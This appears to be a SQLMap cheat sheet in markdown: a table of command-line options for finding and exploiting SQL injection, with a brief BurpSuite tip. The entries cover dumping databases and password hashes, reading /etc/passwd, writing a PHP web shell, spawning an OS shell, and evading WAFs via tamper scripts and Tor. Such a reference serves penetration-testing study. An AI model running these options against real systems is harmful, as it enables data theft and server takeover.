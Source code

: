 >**ℹ️ Info:**
>
>To obtain a HTTP request file, we need to intercept the request on BurpSuite, then right click the Request box -> Copy to file.
## SQLMap Commands
| Command | Description |
|----------------------|--------------------------------------------|
| `--batch` | Run SQLMap without asking for user input |
| `--data 'uid=1&name=test' -p uid` | SQLMap with POST request |
| `--data 'uid=1*&name=test'` | POST request specifying an injection point with an asterisk |
| `-r req.txt` | Passing an HTTP request file to SQLMap |
| `--dbms=MySQL` | Select specific database querys |
| `--hostname` | Hostname of target |
| `--no-cast` | Disables automatic type casting of data |
| `--banner --current-user --current-db --is-dba` | Basic DB enumeration |
| `--tables -D testdb` | Table enumeration |
| `--dump -T users -D testdb -C name,surname` | Table/row enumeration |
| `--dump -T users -D testdb --where="name LIKE 'f%'"` | Conditional enumeration |
| ` --dump-all --exclude-sysdbs` | Dump everything besides system databases |
| `-dump-format=HTML` | Dump output in HTML,SQLITE or CSV (Default) |
| `--schema` | Database schema enumeration |
| `--search -T user` | Searching for data (`-D`, `-T` and `-C`) |
| `--cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'` | Specifying a cookie header |
| `--host` | Specifying a host header |
| `--referer` | Specifying a referer header |
| `--user-agent` | Specifying a User-Agent header |
| `--cookie='COOKIE*'` | Test a header for injection |
| `sqlmap -u www.target.com --data='id=1' --method PUT` | Specifying a PUT request |
| `-t /tmp/traffic.txt` | Store traffic to an output file |
| `--random-agent` | Generate a random User-Agent to bypass filters |
| `--mobile` | Generate a phone User-Agent |
| `-v 6` | Specify verbosity level |
| `--prefix="%'))" --suffix="-- -"` | Specifying a prefix or suffix |
| `-v 3 --level=5 --risk=3` | Specifying the level and risk |
| `--code=200` | If we know that a payload returns `TRUE` when the code is (in this case) 200 |
| `--titles` | If there are differences in the title when a payload returns `TRUE` |
| `--strings=success` | If a certain string appears when a payload returns `TRUE` |
| `--text-only` | Base the comparison only on visible content in the page |
| `--technique=BEU` | Narrow payloads to specific techniques, useful if trouble with specific ones |
| `--passwords` | Password enumeration and cracking |
| `--data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"` | Anti-CSRF token bypass |
| `--randomize=id` | Randomizes a value in a predefined parameter |
| `--eval="import hashlib; param2=hashlib.md5(id).hexdigest()"` | Sometimes expects a parameter to be calculated based on other parameter |
| `--list-tampers` | List all tamper scripts |
| `--is-dba` | Check for DBA privileges |
| `--file-read "/etc/passwd"` | Reading a local file |
| `--file-write "shell.php" --file-dest "/var/www/html/shell.php"` | Writing a file |
| `--os-shell` | Spawning an OS shell |
| `--tor` | Uses the TOR network as a proxy (Needs local installation of TOR) |
| `--parse-errors -v 3` | Look for errors to select the correct tamper |
| `--tamper=between,randomcase` | Try to bypass WAF/IPS |
| `--list-tampers` | List tampers |
| `--chunked` | Splits blacklisted SQL keywords in chunks |


